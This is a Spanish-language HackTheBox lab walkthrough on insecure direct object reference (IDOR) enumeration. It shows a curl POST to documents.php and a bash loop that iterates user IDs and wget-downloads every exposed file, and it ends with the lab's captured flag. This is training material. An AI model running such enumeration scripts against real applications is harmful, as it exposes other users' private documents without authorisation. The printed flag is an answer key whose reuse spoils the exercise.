

# Laboratorio: Mass IDOR Enumeration 🚗

1. Visitamos la web 

<p align="center">
    
</p>

---

2. Aquí no funcionará el colocar `?uid=[N]` en la **url**, ya que no nos saldrá ningún documento.

Si analizamos el código fuente de la página web nos daremos cuenta del siguiente código

* **Código Fuente**
```html
<a href="javascript:getDocuments('1')" target="_self">Documents</a>
```

* Aquí se hace referencia al **id 1**.
* Si vamos a la parte de `Network` en la **consola de desarrollador en en navegador web**, veremos el siguiente archivo

<p align="center">
    
</p>

* Ahora veremos su código
    * **URL:** `http:/[IP]:[Port]/jquery.redirect.js`

    * **Código**
    ```js
    var defaults = {
        url: null,
        values: null,
        method: "POST",
        target: null,
        traditional: false,
        redirectTop: false
    };
    ```
    * La parte más importante es el método **POST**

---

3. Para verificar si enviando una solicitud por **POST** a la página, esta nos responde con contenido, usaremos **cURL**
* `curl -s -X POST "http://[IP]:[Port]/documents.php" -d "uid=1" | grep -oP "\/documents.*?.(pdf|txt)"`
    * `-x POST`: La solicitud se enviará por un método **POST**
    * `-d "uid=1"`: Enviaremos la data por **POST** indicando que un `uid` será igual a 1.
    * `grep -oP "\/documents.*?.(pdf|txt)"`: Filtraremos por archivos que terminen en la extensión `.pdf` o `.txt` (**`.txt`** ya que es el archivo que contiene la `flag`)

**Output**
```
/documents/Invoice_11_03_2021.pdf
/documents/Report_11_04_2021.pdf
```
---
4. Como el comando anterior funcionó, lo que haremos es adaptarlo al **script** que nos dan en **`HackTheBox`**

* `docs.sh`
```sh
#!/bin/bash

url="http://[IP]:[Port]"

for i in {1..20}; do
        for link in $(curl -s -X POST "$url/documents.php" -d "uid=$i" | grep -oP "\/documents.*?.(pdf|txt)"); do
                echo $link
		wget -q $url/$link
        done
done
```

**Output**
```
<SNIP>
/documents/flag_11dfa168ac8eb2958e38425728623c98.txt
<SNIP>
```
---
5. Ahora leemos la **flag**
```
HTB{4ll_f1l35_4r3_m1n3}
```